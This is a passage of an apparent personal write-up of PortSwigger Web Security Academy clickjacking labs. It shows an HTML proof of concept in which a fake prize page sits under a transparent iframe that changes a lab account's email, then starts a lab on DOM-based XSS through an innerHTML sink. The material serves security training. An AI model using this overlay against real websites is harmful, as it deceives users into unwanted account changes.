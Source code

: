 ```htm
                opacity:0.2;
                z-index:2;
                }
            #attacker_website {
                position:absolute;
                z-index:1;
                }
            #attacker_website button {
                margin-left: 425px;
                margin-top: 390;
                }
        </style>
    </head>
    <body>
         <div id="attacker_website">
            <h1>You Are The Winner!!!</h1>
            <h2>You won an awesome tropics holiday!</h2>
            <h2>Accept it by clicking the button below.</h2>
            <button type="reset">Click 2 Win!</button>
        </div>      
        <iframe id="vulnarble_website" src="https://0abc009104710aa2c0390922007b0011.web-security-academy.net/my-account?email=attacker@gmail.com" sandbox="allow-forms" >
        </iframe>
    </body>
</html>
```
# CLICK!

# ***4. Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS***
https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss

to solve the lab: construct a clickjacking attack that fools the user into clicking the "**Click me**" button to call the **print()** function. 

1. lets look for Dom sinks (innerHTML, document.location, search, etc.). observe in page **GET /feedback HTTP/1.1** a call for js script page **GET /resources/js/submitFeedback.js HTTP/1.1**. inside we find inerHTML function:
```js
    function displayFeedbackMessage(name) {
        return function() {
            var feedbackResult = document.getElementById("feedbackResult");
            if (this.status === 200) {
                feedbackResult.innerHTML = "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";
                feedbackForm.reset();
```
the innerhtml might make the name field vulnarble to DOM XSS!
